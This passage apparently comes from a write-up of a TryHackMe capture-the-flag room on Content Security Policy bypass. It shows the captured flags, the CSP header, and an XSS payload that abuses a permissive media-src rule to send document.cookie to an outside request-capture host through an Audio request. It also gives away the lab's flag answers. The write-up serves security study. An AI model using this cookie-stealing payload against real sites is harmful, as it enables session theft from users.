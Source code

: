<img width="406" height="409" alt="image" src="https://github.com/user-attachments/assets/e4ae928b-dc57-4308-be55-1f0b915aa7e2" />

<br>
<br>

```bash
GET `/flag=THM%7BTrust_N0_CDN%7D`
```

<br>
<br>
<br>
<p>7.7. Flag for attack-7. Hint : The 404 error looks kinda weird...<br>
<code>THM{Th1s_4udio_S0unds_N1ce}</code></p>
<br>
<p><em>CSP Evaluator</em></p>
<br>

```bash
Content-Security-Policy: default-src 'none'; media-src *; style-src 'self'; script-src 'self'
```

<br>
<br>

<img width="1109" height="400" alt="image" src="https://github.com/user-attachments/assets/95bf664c-cc4b-4c27-8112-3a023f281065" />


<br>
<p><em>payload</em></p>

```bash
<script src="/'; new Audio('https://researcher.free.beeceptor.com/'+document.cookie);'"></script>
```

<br>

<p><em>researcher.beeceptor.com</em></p>
<br>
<br>

<img width="418" height="252" alt="image" src="https://github.com/user-attachments/assets/67a69c19-5495-48ec-840f-977656012e69" />


<br>
<br>

```bash
GET `/flag=THM%7BTh1s_4udio_S0unds_N1ce%7D`
```

<br>
<br>
<br>
<h2>Task 8 . CSP Sandbox :: Defend Challenges</h2>
<p>To deploy the machine, go to the <strong>CSP Sandbox</strong> task.<br><br>

<strong>Defend</strong> challenges require you to defend the website from XSS attacks by creating a CSP header that blocks them, whilst allowing the legitimate scripts to execute.</p>
